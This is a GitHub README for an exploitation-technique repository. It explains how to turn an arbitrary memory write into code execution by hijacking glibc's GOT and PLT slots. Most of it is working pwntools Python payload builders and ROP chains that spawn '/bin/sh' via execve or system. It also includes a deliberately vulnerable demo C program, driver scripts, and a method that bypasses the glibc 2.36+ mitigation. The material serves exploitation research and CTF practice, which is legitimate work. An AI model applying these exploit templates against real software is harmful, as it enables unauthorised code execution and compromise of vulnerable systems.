

# Libc-GOT-Hijacking

Transform arbitrary write to RCE. (This skill works for glibc<=2.35, more work needs to be done to bypass the mitigation after glib-2.35)


Userspace attacking: If you can write arbitrary memory space, you can use this method to execute arbitrary code.


I learned the basic method from [Sammy Hajhamid][1] also this repo is inspired by his work.


Update for 2.25+ glibc:
Found a way to exploit, it but had no time to generalize it, asked my friends for help... 

# tl;dr

[Template][4]


By attacking Glibc GOT, We can transform arbitrary write to RCE. I shrank the origin method from 0x418 bytes to 0x1f0 bytes. Meanwhile, for common IO functions, I constructed shorter payloads (0x50 bytes). Also, I talked about the method to make it shorter by combining one_gadget. 


| Method | Length | Trigger | Rank |
| -------- | -------- | -------- | -------- |
| Ori | 0x418 | Generic | 3 |
| fx0 | 0x248 | Generic | - |
| fx1 | 0x200 | Generic | - |
| fx2 | 0x1f0 | Generic | 1 |
| fx3 | 0x70 | IO Options(Likely) | 2 |
| fx4 | 0x50 | IO Options(Likely) | 4 |
| fx5 | 0x40 | IO Options(one_gadget)| - |


> This is a personal rank. A smaller number -> better. 

> "-" means I would never use it as a template.


> You can find the POC for each method [here][3].

# Introduction

There are two different types of shrink the payload:
- Cover all GOT slots
- Cover part of slots

If we cover all the GOT slots, our payload can be triggered by more functions. Otherwise, if we make our payload shorter and only cover several GOT slots, our payload can only be triggered by fewer functions. Also, it's possible to crash other functions. I'll mainly focus on two scenarios
- Generic Payload
    - One Shot
    - Two Shots
- Common Functions

We overwrite all the libc GOT slots, so as long as there is one function that triggers the functions that have libcGOT, the program will hit our gadgets. There is one very important gadget we gonna use. I'll name it PLT0 in this project.
```
0x7ffff7c2c000                     push   qword ptr [rip + 0x1c6002]
0x7ffff7c2c006                     bnd jmp qword ptr [rip + 0x1c6003]
# libc.address + libc.get_section_by_name(".plt").header.sh_addr
```
As the code above shows, this gadget can push an address to stack and jump to an address. Luckily, these two addresses are next to each other and they are pretty close to Libc's GOT table, which means we could overwrite them all at the same time. 


# Generic Payload

## fx0 - 0x248
As [this article][1] presents, we can use setcontext+0x20 to RCE. I modified it to a shorter version by
- Avoid setting ldmxcsr and use original data to set it
- Only set necessary registers

```python3
def liteContext(src: int,rsp=0,rbx=0,
    rbp=0,rsi=0,rdi=0,rcx=0,
    rdx=0,rip=0xDEADBEEF,) -> bytearray:
    b = bytearray(0x200)
    b[0x68:0x70] = p64(rdi)
    b[0x70:0x78] = p64(rsi)
    b[0x78:0x80] = p64(rbp)
    b[0x80:0x88] = p64(rbx)
    b[0x88:0x90] = p64(rdx)
    b[0x98:0xA0] = p64(rcx)
    b[0xA8:0xB0] = p64(rip)
    b[0xA0:0xA8] = p64(rsp)
    b[0xE0:0xE8] = p64(src)  # fldenv ptr
    # b[0x1C0:0x1C8] = p64(0x1F80)  # ldmxcsr == 0
    return b

def fx0(libc: ELF,nudge = 8, **kwargs) -> (int, bytes):
    # nudge is used to make sure ldmxcsr == 0, 
    # aka [got + 0x1c8-0x68 + nudge + 0x1c0] == 0
    got = libc.address + libc.dynamic_value_by_tag("DT_PLTGOT")
    plt_trampoline = libc.address + libc.get_section_by_name(".plt").header.sh_addr
    info(hex(plt_trampoline))
    return got+8, flat(
        p64(got + 0x1c8-0x68 + nudge), # Make sure ldmxcsr==0
        p64(libc.symbols["setcontext"] + 32),
        p64(plt_trampoline) * 0x36,
        liteContext(libc.sym["execve"], rsp=libc.symbols["environ"] + 8, **kwargs)[0x68-nudge:0xe8])

```

## fx1 - 0x200

Setcontext has the advantage of transforming data to control flow, while ROP can do the same thing with a shorter payload in this scenario. Moreover, ROP is more flexible. The min generic RCE (`execve("/bin/sh",0,0)`) payload is 0x200. 

There is one example for ROPchain:
```
libc.address=base
rop = ROP(libc)
rdi = rop.find_gadget(["pop rdi",'ret'])[0]
rsi = rop.find_gadget(["pop rsi",'ret'])[0]
rdx = rop.find_gadget(["pop rdx","pop r12",'ret'])[0]
rop_chain = [rdi,libc.search(b"/bin/sh").__next__(),rsi,0,rdx,0,0,libc.sym['execve']]
```

By the way, we can not call the system without stack magic since the stack grows to a lower address. The function to generate payload is attached:

```py
class ROPgadget():
    def __init__(self,libc: ELF,base=0):
        if Path("./gadgets").exists():
            print("[!] Using gadgets, make sure that's corresponding to the libc!")
        else:
            fp = open("./gadgets",'wb')
            subprocess.run(f"ROPgadget --binary {libc.path}".split(" "),stdout=fp)
            fp.close()
        fp = open("./gadgets",'rb')
        data = fp.readlines()[2:-2]
        data = [x.strip().split(b" : ") for x in data]
        data = [[int(x[0],16),x[1].decode()] for x in data]
        fp.close()
        self.gadgets = data
        self.base  = base
    def search(self,s):
        for addr,ctx in self.gadgets:
            if ctx == s:
                return addr+self.base
        return None    
def fx1(libc: ELF, rop_chain = []):
    got = libc.address + libc.dynamic_value_by_tag("DT_PLTGOT")
    plt0 = libc.address + libc.get_section_by_name(".plt").header.sh_addr
    rop = ROPgadget(libc,libc.address)
    pivot = rop.search("pop rsp ; ret")
    return got+8, flat(
        p64(got+8+0x38*8), # the rop chain address
        p64(pivot),
        p64(plt0) * 0x36, flat(rop_chain))
```

## fx2 - 0x1f0
Setting the parameters is painful since we are at the bound of writable pages, the stack may reach the read-only pages and crashes the program. In fx1, we use ROP to avoid calling system while in fx2, we use some special gadget to pivot the stack.

For example 
```
pop rsp; .* ;jmp rax
// As long as, gadgets in .* don't change rdi/rax.
```
The corresponding function fx2:
```py
def fx2(libc: ELF, rop_chain = []):
    got = libc.address + libc.dynamic_value_by_tag("DT_PLTGOT")
    plt0 = libc.address + libc.get_section_by_name(".plt").header.sh_addr
    rop = ROPgadget(libc,libc.address)
    pivot = rop.search("pop rsp ; ret")
    return got+8, flat(
        p64(got+8+0x38*8), # the rop chain address
        p64(pivot),
        p64(plt0) * 0x36, flat(rop_chain)+p64(got+0x3000))
```

The length is 0x1f0 if we call `system("/bin/sh")`.

For fx1 and fx2, they are very flexible since they can just chain the gadgets and execute anything. For example, you can combine one_gadget and other gagets to build a shorter payload.

# Special Payload

## Targets

In glibc, there are some functions that can jump to the malicious function pointers on the corrupted GOT table. We call them sink functions. In order to figure out these sink functions. I wrote a [filter script][2] to get a part of sink functions. But this script is very limited since I didn't try different parameters. For example, free could be a sink function if we set the parameter properly.


## Locate the Target Slot

We need to locate the target slot to avoid overwriting the non-related slots. I am too lazy to write a gdb script to do that so I'll give an example and list some common functions' target slot.

## Example - 0x48
Let's pick the first function "asctime" as the sink function.
I wrote and compiled a demo c program for it:
```c
// gcc ./sinkProb.c -o ./sink  -w
#include<stdio.h>
#include <time.h>
int main(){
    size_t rw_area = malloc(0x10000);
    rw_area += 0x8000;
    size_t addr = 0;
    size_t len = 0;
    printf("%p\n",printf);
    read(0,&addr,8);
    read(0,&len,8);
    read(0,addr,len);
    void (*p)(void *,void *,void *,void *,void *,void *) = asctime;
    p(rw_area,rw_area,rw_area,rw_area,rw_area,rw_area);
} 
```
Then, we can use the following script to set the GOT table:
```python
from pwn import *
context.arch='amd64'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
def pb(libc: ELF,lx):
    got = libc.address + libc.dynamic_value_by_tag("DT_PLTGOT")
    return got+0x18, flat([x for x in range(1,lx+1)])
libc    = ELF("/lib/x86_64-linux-gnu/libc.so.6")
p       = process("./sink")
gdb.attach(p,'')
base = int(p.readline(),16) - (0x7ff6a25244a0-0x7ff6a24c8000) - 0x4250
libc.address=base
info(hex(base))
lx = 36
dest, payload = pb(libc,lx)
success(hex(len(payload)))
context.arch='amd64'
p.send(p64(dest))
p.send(p64(len(payload)))
p.send(payload)
p.interactive()
```

If we run the script and crash at address 0x15. The offset of the sink slot is 0x15*8 to the start of the GOT table. One sink function may trigger multi-sink slots so you can change the variable lx to adjust the length of payload so we can find the shortest payload.

The example `asctime` crashes at 
```
0x15 
0x1
```
This result means for this function, we at least need 0x10+0x1*0x8 bytes to RCE. However, most time, one_gadget's constraints are not satisfied so we prefer a generic way, which means we have to combine fx2 with this method. The length of the example is 0x48, including 0x18 base and 0x30 ROP.

```python
from pwn import *
import re
context.arch='amd64'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
class ROPgadget():
    def __init__(self,libc: ELF,base=0):
        if Path("./gadgets").exists():
            print("[!] Using gadgets, make sure that's corresponding to the libc!")
        else:
            fp = open("./gadgets",'wb')
            subprocess.run(f"ROPgadget --binary {libc.path}".split(" "),stdout=fp)
            fp.close()
        fp = open("./gadgets",'rb')
        data = fp.readlines()[2:-2]
        data = [x.strip().split(b" : ") for x in data]
        data = [[int(x[0],16),x[1].decode()] for x in data]
        fp.close()
        self.gadgets = data
        self.base  = base
    def search(self,s):
        for addr,ctx in self.gadgets:
            match = re.search(s, ctx)
            if match:
                return addr+self.base
        return None   
def fx3(libc,pos = 1, rop_chain=[],nudge=0):
    # 
    # nudge to align stack
    assert(pos>=1)
    assert(pos<=36)
    got = libc.address + libc.dynamic_value_by_tag("DT_PLTGOT")
    plt0 = libc.address + libc.get_section_by_name(".plt").header.sh_addr
    rop = ROPgadget(libc,libc.address)

    
    escape = rop.search(r"^pop rsp .*jmp rax")
    pivot = rop.search(r"^pop rsp ; ret")
    rop_chain += [escape,got+0x3000-nudge*8] 
    rop_len = len(rop_chain)
    if pos <= rop_len:
        # We can shrink it but make it more complex
        payload = flat([got+0x18+pos*8,pivot])+flat([0]*(pos-1))+p64(plt0)+flat(rop_chain)
    else:
        # We can shrink it but make it more complex
        payload = flat([got+0x18,pivot])+flat(rop_chain)+flat([0]*(pos-rop_len))+p64(plt0)
    return got+0x08,payload


libc    = ELF("/lib/x86_64-linux-gnu/libc.so.6")
p       = process("./sink")
gdb.attach(p,'')
base = int(p.readline(),16) - (0x7ff6a25244a0-0x7ff6a24c8000) - 0x4250
libc.address=base
info(hex(base))
rop = ROP(libc)
rdi = rop.find_gadget(["pop rdi",'ret'])[0]
rax = rop.find_gadget(["pop rax",'ret'])[0]
rop_chain = [rdi,libc.search(b"/bin/sh").__next__(),rax,libc.sym["system"]]
dest, payload = fx3(libc,1,rop_chain,1)
success(hex(len(payload)))
context.arch='amd64'
p.send(p64(dest))
p.send(p64(len(payload)))
p.send(payload)
p.interactive()
```

It's worth mentioning that I didn't automize this method and it requires computation for pos. For a special pos sequence, you need to consider the layout. For example, the pos sequence is "3 1", which means it hits slot-3 first and then hits slot-1. Because if we choose slot 1 to attack, we are likely to overwrite slot 3 which fails our exploitation. Therefore, we have to choose slot 3 to attack. But, assuming our ropchain's length is 3, for sequence "7 6", we choose 6 rather than 7 since we can hide the rop chain between slot-1 to slot-6. 


By checking several common functions, I noticed that lots of functions trigger "__mempcpy_avx_unaligned_erms" while doing IO, including print and puts. 

So it's necessary to talk about the shortest payload for pos=0x6.

It's simple to apply 0x6 to the example code and get the length of 0x70.

## Shorter? - 0x50

Of course! We still have lots of useless space. For example, the following code also works for pos=6 but it only takes 0x50 bytes.

```py
def fx4(libc,pos = 6, rop_chain=[],nudge=0):
    # nudge to align stack
    assert(pos==6)
    got = libc.address + libc.dynamic_value_by_tag("DT_PLTGOT")
    plt0 = libc.address + libc.get_section_by_name(".plt").header.sh_addr
    rop = ROPgadget(libc,libc.address)
    escape = rop.search(r"^pop rsp .*jmp rax")
    pivot = rop.search(r"^pop rsp ; ret")
    rsi = rop.search(r"^pop rsi ; ret")
    rop_chain += [rsi,] 
    rop_len = len(rop_chain)
    assert(rop_len<6)
    payload = flat([got+0x18,pivot])+flat(rop_chain)+p64(plt0)+flat([escape,got+0x3000-nudge*8])
    return got+0x08,payload
```

## one_gadget - 0x40

What if we combine one_gadgte and our methods?
Can we make it shorter?

The answers are yes and no. It depends on the libc and the context when you hit the gadget. That's a complex problem and I may write a tool when I have time.

I'll show you a case in this section to show that combining one_gadget can make the payload shorter.

If we have such a one_gadget
```sh
0xf7e22 posix_spawn(rsp+0x54, "/bin/sh", [rsp+0x30], 0, rsp+0x60, [rsp+0x160])
constraints:
  [rsp+0x60] == NULL
  [[rsp+0x160]] == NULL || [rsp+0x160] == NULL
  [rsp+0x30] == NULL || (s32)[[rsp+0x30]+0x4] <= 0
```

If pos=6, we can make a 0x40-byte payload.
```py
from pwn import *

context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
libc = ELF("/glibc/x64/2.35/lib/libc.so.6")
p = process("./sink",env={"LD_PRELOAD":"/glibc/x64/2.35/lib/libc.so.6"})
gdb.attach(p,'''b *0x7ffff7c2c000''')
base = int(p.readline(),16) - (0x7ff6a25244a0-0x7ff6a24c8000)
libc.address=base
dest = libc.dynamic_value_by_tag("DT_PLTGOT")+base
plt0 = libc.address + libc.get_section_by_name(".plt").header.sh_addr
context.arch='amd64'
context.log_level='debug'
pop_rsp = 0x00000000000c9fa6+base
sh = libc.search(b"/bin/sh").__next__()
leave = 0x00000000000306dd+base
rax = 0x0000000000044a60+base
one_gadget = 0xf7e22+base
payload = flat([dest+0x18,pop_rsp,rax,one_gadget,leave,dest+0x938,0xdeadbeef,plt0])
p.send(p64(dest+0x8))
success(hex(len(payload)))
p.send(p64(len(payload)))
p.send(payload)
p.interactive()
```


# Two Shots

Idea: ROP to call read

```
Assume `Pos=x``,

If x>=4

then,

Len(payload) = 0x10+Pos*8

else:

Len(payload) = 0x10+Pos*8+3*8
```

For example, x=4:

`payload = flat([dest+0x18,pop_rsp,rdi,dest,gets,plt0])`

# After glibc-2.36

This [issue](https://github.com/n132/Libc-GOT-Hijacking/issues/1) mentions the problem that glibc 2.36 and later versions cannot be exploited, due to the GOT (Global Offset Table) headers in libc no longer being writable. However, we found that the .got.plt in libc is writable, hence we have the following method.


This method has been verified on glibc 2.36 / 2.37 / 2.38.


* Idea: perform ROP on GOT
* Trigger puts, which is in the target binary
* The puts function will call the `strlen` function, so it will trigger slot on .got.plt (Assuming the index of strlen is 0x10 in .got.plt)
* We go to overwrite slot0x10, so we can hijack the program flow.
* We prepare two gadgets, then call `gets`, and finally execute the ropchain we sent last.
    - Frist Gadget is: `lea rdi, [rsp+24]; ...; call strncpy` (strncpy will also trigger on .got.plt, so we can overwrite it with the second gadget.). This gadget can be found in the `login`` function of libc.
    - Second Gadget is: `call wcschr ; ...; mov rax, rbx; pop rbpx; pop rbp; pob r12; ret` ( `wcschr` will also trigger on .got.plt, so we can overwrite it with the final function (`gets`)).  This gadget can be found in the  `wcscspn` function of libc.
* Finally, we use the `gets` function to receive the ropchain that we want to execute.


[Exploit](./Code/after-glibc-2.35)



# Reference link

[1]: https://hackmd.io/@pepsipu/SyqPbk94a
[2]: /Infra/SinkFinder.py
[3]: ./Code
[4]: ./Temp.md
